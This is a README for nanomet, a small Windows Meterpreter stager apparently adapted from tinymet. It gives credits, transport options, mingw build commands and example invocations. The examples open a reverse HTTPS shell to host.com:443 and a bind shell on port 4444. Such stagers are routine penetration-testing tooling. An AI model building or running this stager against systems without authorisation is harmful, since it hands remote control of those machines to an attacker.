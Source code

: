 nanomet
=======

A "nano" meterpreter stager.  Copyright (c) 2014, Vlatko Kosturjak - kost
nanomet is tinymet modified to support compiling using mingw compilers.

Based on tinymet by Copyright (c) 2014, Sherif Eldeeb "eldeeb.net"
please visit http://tinymet.com for details

Usage
=======

Usage: nanomet.exe [transport] LHOST LPORT

Available transports are as follows:

* 0: reverse_tcp
* 1: reverse_http
* 2: reverse_https
* 3: bind_tcp

Example
========

use reverse_https and connect to host.com:443

    nanomet.exe 2 host.com 443

bind_tcp port 4444 on all interfaces

    nanomet.exe 3 0.0.0.0 4444


Building
========

Linux: 

    make CC=i586-mingw32msvc-gcc

Mac OS X:

    make CC=i386-mingw32-gcc

Microsoft Windows / Visual C++:

    nmake /f Makefile.vc

